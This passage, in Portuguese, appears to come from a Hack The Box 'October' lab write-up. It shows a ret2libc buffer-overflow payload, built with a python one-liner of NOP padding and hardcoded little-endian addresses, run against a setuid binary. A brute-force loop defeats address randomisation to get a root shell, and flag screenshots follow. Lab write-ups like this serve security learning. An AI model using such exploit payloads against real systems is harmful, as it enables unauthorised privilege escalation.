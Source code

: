 Uéé! Por que está invertido? É pq é little indian!

`/usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x23\x5f\xb7" + "\x60\x52\x5e\xb7" + "\xac\x4b\x71\xb7"');`

Mas como está habilitado, tenho que fazer o loop

`while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x23\x5f\xb7" + "\x60\x52\x5e\xb7" + "\xac\x4b\x71\xb7"'); done`

Executamos!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_show.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_show1.png)

## Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_user.png)